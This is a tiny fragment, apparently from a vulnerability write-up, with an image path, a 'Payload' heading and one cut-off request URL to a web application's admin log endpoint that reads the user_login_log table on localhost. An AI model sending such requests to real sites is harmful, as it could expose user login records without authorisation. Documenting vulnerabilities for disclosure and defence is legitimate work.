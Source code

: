 Payload
-------

    http://127.0.0.1/admin/index.php?m=admin&c=log&a=table_json&json=get&soso_ok=1&t=user_login_log&page=1&limit=10&